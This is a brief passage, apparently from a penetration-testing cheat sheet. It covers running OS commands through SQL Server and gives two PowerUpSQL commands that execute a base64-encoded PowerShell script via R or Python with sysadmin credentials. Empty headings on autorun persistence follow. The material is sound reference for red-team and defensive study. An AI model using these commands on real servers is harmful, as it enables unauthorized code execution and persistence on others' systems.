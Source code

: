 > https://gist.github.com/james-otten/63389189ee73376268c5eb676946ada5
> https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server

PowerUpSQL:
```
Invoke-SQLOSCmdR -Username sa -Password pw -Instance instance -Command "powershell -e <base64encodedscript>" -Verbose
Invoke-SQLOSCmdPython -Username sa -Password pw -Instance instance -Command "powershell -e <base64encodedscript>" -Verbose
```

## Registry Autoruns
## File Autoruns
